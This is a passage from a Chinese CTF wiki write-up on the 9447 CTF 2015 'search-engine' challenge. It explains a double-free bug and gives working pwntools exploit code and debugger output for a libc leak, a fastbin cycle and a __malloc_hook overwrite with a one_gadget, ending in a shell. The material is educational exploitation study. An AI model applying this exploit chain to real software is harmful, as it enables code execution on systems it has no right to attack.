            }
          }
        }
      }
      free(v1);

可以看出，在每次释放 i->sentence\_ptr 之前，这个句子的内容就会全部被设置为 ``\x00`` ，由于单词结构体中存储的单词只是句子的一个指针，所以单词也会被置为 ``\x00``
。该句子对应的那些单词仍然是存在于链表中的，并没有被删除，因此每次搜索单词的时候，仍然会判断。看起来由于句子内容被置为 ``\x00`` 可以防止通过 ``*i->sentence_ptr`` 验证。然而，由于 chunk
被释放后会被放到 bin 中，当 chunk 不是 fastbin 或者 chunk 被重新分配出去使用的时候，也就有可能会产生 double free 的情况。此外，当句子被 ``memset`` 的时候，单词虽然都变为了 ``\x00``
，但是我们仍然可以通过两个 ``\x00`` 的比较来绕过 ``memcmp`` 的检测。

利用
~~~~

利用思路
^^^^^^^^

基本利用思路如下

-  利用 unsorted bin 地址泄漏 libc 基地址
-  利用 double free 构造 fastbin 循环链表
-  分配 chunk 到 malloc\_hook 附近，修改malloc\_hook 为 one\_gadget

泄漏 libc 地址
^^^^^^^^^^^^^^

这里我们分配一个 small bin 大小的 chunk ，当它被释放后，就会放入到 unsorted bin 中。因而，只要 ``unsorted bin`` 的地址的起始字节不是 ``\x00`` 便可以通过验证。同时，我们可以构造 ``\x00``
来进行比较，从而通过验证。具体如下

.. code:: python

    def leak_libc():
        smallbin_sentence = 's' * 0x85 + ' m '
        index_sentence(smallbin_sentence)
        search_word('m')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('y')
        search_word('\x00')
        p.recvuntil('Found ' + str(len(smallbin_sentence)) + ': ')
        unsortedbin_addr = u64(p.recv(8))
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('n')
        return unsortedbin_addr

构造 fastbin 循环链表
^^^^^^^^^^^^^^^^^^^^^

由于我们最后希望在 malloc\_hook 处分配 chunk，而一般分配 malloc\_hook 附近的 chunk 一般大小都是0x7f。即，我们所需要设置的设置的 fast bin 的数据字节部分的大小为 0x60。这里我们按照如下方式构造

1. 分别索引句子a，索引句子b，索引句子c，则此时单词链表中索引的句子的相对顺序为c->b->a。假设句子 a 为'a' \* 0x5d+' d '，句子 b 为 'b' \* 0x5d+' d '，句子c类似。
2. 索引单词d，三个均删除，则此时 fastbin 中的链表情况为 a->b->c->NULL，这是因为首先释放的是句子c，最后释放的是句子 a 。这时，搜索单词时\ ``*i->sentence_ptr`` 对于a, b 来说都是可以绕过的。
3. 我们此时再次删除搜索单词 ``\x00``\ 。首先遍历的是 c，但是 c 的验证不通过；其次遍历的是b，验证通过，我们将其释放；其次遍历的是a，验证通过，但是我们不删除。则此时 fastbin 的情况为
   b->a->b->a->...。即已经构成了double free b的情况。由于我们先前为了 leak libc 还建立一个句子，所以还有一个单词可以比较，这里我们也不删除。

具体代码如下

.. code:: python

        # 2. create cycle fastbin 0x70 size
        index_sentence('a' * 0x5d + ' d ')  #a
        index_sentence('b' * 0x5d + ' d ')  #b
        index_sentence('c' * 0x5d + ' d ')  #c

        # a->b->c->NULL
        search_word('d')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('y')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('y')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('y')

        # b->a->b->a->...
        search_word('\x00')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('y')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('n')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('n')

效果如下

.. code:: shell

    pwndbg> fastbins 
    fastbins
    0x20: 0x0
    0x30: 0x1d19320 ◂— 0x0
    0x40: 0x0
    0x50: 0x0
    0x60: 0x0
    0x70: 0x1d191b0 —▸ 0x1d19010 —▸ 0x1d191b0 ◂— 0x1d19010
    0x80: 0x0

分配 malloc\_hook 附近chunk
^^^^^^^^^^^^^^^^^^^^^^^^^^^

此时，fastbin 的链表为 b->a->b->a->…，则我们可以在申请第一个相同大小的 chunk 时，设置 b 的 fd 为 malloc\_hook 附近处的 chunk ``0x7fd798586aed``\ （这里是举一个例子，代码中需使用相对地址）。

.. code:: shell

    pwndbg> print (void*)&main_arena 
    $1 = (void *) 0x7fd798586b20 <main_arena>
    pwndbg> x/8gx 0x7fd798586b20-16
    0x7fd798586b10 <__malloc_hook>: 0x0000000000000000  0x0000000000000000
    0x7fd798586b20 <main_arena>:    0x0000000000000000  0x0000000000bce130
    0x7fd798586b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
    0x7fd798586b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
    pwndbg> find_fake_fast 0x7fd798586b10 0x7f
    FAKE CHUNKS
    0x7fd798586aed PREV_INUSE IS_MMAPED NON_MAIN_ARENA {
      prev_size = 15535264025435701248, 
      size = 127, 
      fd = 0xd798247e20000000, 
      bk = 0xd798247a0000007f, 
      fd_nextsize = 0x7f, 
      bk_nextsize = 0x0
    }
    pwndbg> print /x 0x7fd798586b10-0x7fd798586aed
    $2 = 0x23
    pwndbg> print /x 0x7fd798586b20-0x7fd798586aed
    $3 = 0x33

那么当再次分配 b 的时候，由于此时 b 的 fd 已经被我们修改为了malloc\_hook附近的地址，所以这时候我们再次分配一个 chunk，就会指向 ``0x7fd798586aed``\ 。 此后便只需要将 malloc\_hook 修改为 one\_gadget
地址就可以拿到 shell 了。

.. code:: python

        # 3. fastbin attack to malloc_hook nearby chunk
        fake_chunk_addr = main_arena_addr - 0x33
        fake_chunk = p64(fake_chunk_addr).ljust(0x60, 'f')

        index_sentence(fake_chunk)

        index_sentence('a' * 0x60)

        index_sentence('b' * 0x60)

        one_gadget_addr = libc_base + 0xf02a4
        payload = 'a' * 0x13 + p64(one_gadget_addr)
        payload = payload.ljust(0x60, 'f')
        #gdb.attach(p)
        index_sentence(payload)
        p.interactive()

这里可能需要多选择几个 one\_gadget 地址，因为 one\_gadget 成功是有条件的。

shell
^^^^^

.. code:: shell

    ➜  2015_9447ctf_search-engine git:(master) python exp.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        FORTIFY:  Enabled
    [+] Starting local process './search': pid 31158
    [*] PID: 31158
    [+] unsortedbin addr: 0x7f802e73bb78
    [+] libc base addr: 0x7f802e377000
    [*] Switching to interactive mode
    Enter the sentence:
    $ ls
    exp.py       search      search.id1  search.nam
    libc.so.6  search.id0  search.id2  search.til

当然，这里还有一种\ `方法 <https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/>`__\ ，将 chunk 分配到栈上。

参考文献
========

-  https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/

.. |image0| image:: /pwn/heap/figure/fastbin_link_list.png
